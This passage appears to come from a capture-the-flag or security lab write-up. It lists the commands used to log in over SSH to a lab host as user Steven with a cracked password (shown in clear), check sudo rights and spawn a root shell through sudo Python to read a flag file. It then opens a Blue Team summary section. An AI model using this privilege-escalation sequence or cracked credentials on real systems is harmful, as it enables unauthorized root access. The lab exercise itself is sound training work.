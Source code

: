         - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
            - Commands: 
                - `ssh steven@192.168.1.110`
                - `pw:pink84`
                - `sudo -l`
                - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                - `cd /root`
                - `ls`
                - `cat flag4.txt`

![stevenlogin.png](Screengrabs/stevenlogin.png)
![stevenpriviledges.png](Screengrabs/stevenpriviledges.png)

# Blue Team: Summary of Operations

### Table of Contents
- Network Topology
- Description of Targets
- Monitoring the Targets
- Patterns of Traffic and Behavior
- Suggestions for Going Further
